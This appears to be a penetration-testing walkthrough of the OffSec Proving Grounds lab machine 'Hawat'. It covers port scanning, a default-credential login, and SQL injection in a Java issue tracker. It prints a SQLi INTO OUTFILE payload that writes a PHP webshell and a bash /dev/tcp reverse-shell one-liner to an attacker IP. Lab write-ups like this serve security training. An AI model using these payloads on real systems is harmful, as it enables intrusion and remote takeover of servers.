


# Hawat — OffSec Proving Grounds Walkthrough

**Platform:** Proving Grounds Practice
**Difficulty:** Hard
**OS:** Linux

---

## TL;DR

Multiple web services → cloud login with `admin:admin` → download IssueTracker source code → discover SQL injection in Java code → write PHP webshell via SQLi `INTO OUTFILE` → reverse shell → root (service runs as root).

---

## Enumeration

```bash
nmap -sC -sV -p- -n -Pn --min-rate=9018 192.168.152.147 -oN nmap.txt
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 8.4 |
| 17445 | HTTP | Issue Tracker (Java/Spring) |
| 30455 | HTTP | nginx 1.18.0 (PHP + phpinfo) |
| 50080 | HTTP | Apache 2.4.46 (PHP 7.4.15) |

Three web servers! Gobuster on each reveals:
- **Port 17445**: `/login`, `/register` — Issue Tracker app
- **Port 30455**: `/index.php`, `/phpinfo.php`
- **Port 50080**: `/cloud` (login page), `/images`

---

## Step 1 — Cloud Login + Source Code Download

The cloud directory on port 50080 has a login page. Default credentials work: `admin:admin`.

Inside, we find a **zip file** containing the source code for the Issue Tracker app running on port 17445. Downloading and unzipping reveals Java source code.

---

## Step 2 — SQL Injection in Issue Tracker

Examining `IssueController.java`, we find hardcoded credentials (`issue_user:ManagementInsideOld797`) and more importantly, a **raw SQL query**:

```sql
SELECT message FROM issue WHERE priority='priority'
```



This is **not parameterized** — classic SQL injection. The endpoint is `/issue/checkByPriority`.

---

## Step 3 — SQLi to PHP Webshell

From `phpinfo.php` on port 30455, we identify the webroot as `/srv/http`.

Using Burp Suite, we inject a PHP webshell via SQL `INTO OUTFILE`:

```sql
' UNION SELECT '<?php echo exec($_GET["cmd"]); ?>' INTO OUTFILE '/srv/http/damn.php'; -- 
```



**Important:** You need to be logged into the Issue Tracker first (register with any creds like `test:test`), then capture an authenticated request to modify with the injection.

Verify the webshell works:

```
http://192.168.152.147:30455/damn.php?cmd=id
```

---

## Step 4 — Root Shell

Most ports are blocked by a firewall. Port 443 works:

```bash
bash -i 5<> /dev/tcp/192.168.45.201/443 0<&5 1>&5 2>&5
```

The web service runs as **root**, so we get instant root access. 🎉

---

## Key Takeaways

- **Source code review** is incredibly valuable — downloading and reading the app's Java source revealed the SQLi vulnerability
- **SQL `INTO OUTFILE`** can write PHP webshells when the database user has FILE privileges and you know the webroot
- **phpinfo.php** leaks critical info like document root, loaded modules, and server configuration
- Multiple web services on different ports = multiple attack vectors to explore

---

*Thanks for reading! Follow for more OffSec walkthrough content.*
